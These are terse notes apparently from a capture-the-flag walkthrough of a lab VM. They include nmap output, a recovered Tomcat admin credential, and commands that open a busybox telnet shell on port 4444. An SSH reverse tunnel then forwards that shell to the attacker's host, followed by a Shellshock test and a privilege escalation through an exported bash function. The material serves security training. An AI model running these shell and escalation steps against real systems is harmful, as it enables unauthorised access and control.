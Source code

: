 https://www.serma-safety-security.com/vulnerabilite-critique-sur-bash-cve-2014-6271-shellshock/
https://www.minttm.com/takeover-shellshocker-net


└─$ sudo nmap -sT -A -T4 -Pn -n -p- 10.0.1.46 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 06:23 CET
Nmap scan report for 10.0.1.46
Host is up (0.00028s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.0.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
9001/tcp open  jdwp    Java Debug Wire Protocol (Reference Implementation) version 1.6 1.7.0_71
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:7E:54:00 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13, Linux 3.10, Linux 3.4 - 3.10
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.28 ms 10.0.1.46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.78 seconds



get sleepy.png



user username="sl33py" password="Gu3SSmYStR0NgPa$sw0rD!" roles="tomcat,manager-gui,admin-gui,admin,manager-jmx,admin-script,manager,manager-script,manager-status"/>

./busybox telnetd -l /bin/bash -p 4444

ssh kali@10.0.1.1 -R 4444:127.0.0.1:4444 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no


SHELLSHOCK
bash-4.2$ env x='() { :;}; echo vulnerable' bash -c "echo test"

bash-4.2$ function /usr/bin/sl () { /bin/bash; }
bash-4.2$ export -f /usr/bin/sl



